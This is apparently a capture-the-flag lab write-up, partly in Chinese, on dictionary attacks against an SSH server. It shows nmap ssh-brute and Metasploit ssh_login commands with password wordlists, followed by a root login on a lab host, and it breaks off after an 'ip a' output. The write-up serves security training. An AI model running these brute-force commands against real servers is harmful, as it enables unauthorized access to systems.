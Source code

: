 ```
echo "administrator" > user
nmap 192.141.55.3 -p 22 --script ssh-brute --script-args userdb=/root/user
```

```
msfconsole

use auxiliary/scanner/ssh/ssh_login
show options
set rhosts 192.141.55.3
set userpass_file /usr/share/wordlists/metasploit/root_userpass.txt
set STOP_ON_SUCCESS true
set verbose true
options
run 
exit -y
```

```
ssh root@192.141.55.3

root@victim-1:~# whoami
root

root@victim-1:~# ls /
```

# SSH Recon: Dictionary Attack（SSH侦察：字典攻击）
## 概述
在这个挑战中，我们将研究对 SSH 服务器的字典攻击。请开始实验并回答以下问题：

**问题**
1. 使用 hydra 查找用户“student”的密码。
2. 使用适当的 Nmap 脚本和密码字典查找用户“administrator”的密码：/usr/share/nmap/nselib/data/passwords.lst
3. 使用带有用户密码字典的 ssh_login Metasploit 模块查找用户“root”的密码：/usr/share/wordlists/metasploit/root_userpass.txt
4. 当天的讯息是什么？（用户登录SSH服务器后打印）。

**指示：**
* 这个实验室是献给你的！此网络上没有其他用户 :)
* 开始实验室后，您将可以访问 Kali 实例的根终端
* 你的 Kali 有一个 IP 地址为 192.XYZ 的接口运行“ip addr”来知道 X 和 Y 的值。
* 目标机器应位于 IP 地址 192.XY3。
* 不要攻击位于 IP 地址 192.XY1 的网关

## 我自己的思路
In this challenge, we will look at the dictionary attacks on SSH server. Please start the lab and answer the following questions:

```
root@attackdefense:~# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
2: ip_vti0@NONE: <NOARP> mtu 1480 qdisc noop state DOWN group default qlen 1000
    link/ipip 0.0.0.0 brd 0.0.0.0
28270: eth0@if28271: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:0a:01:00:08 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 10.1.0.8/16 brd 10.1.255.255 scope global eth0
       valid_lft forever preferred_lft forever
```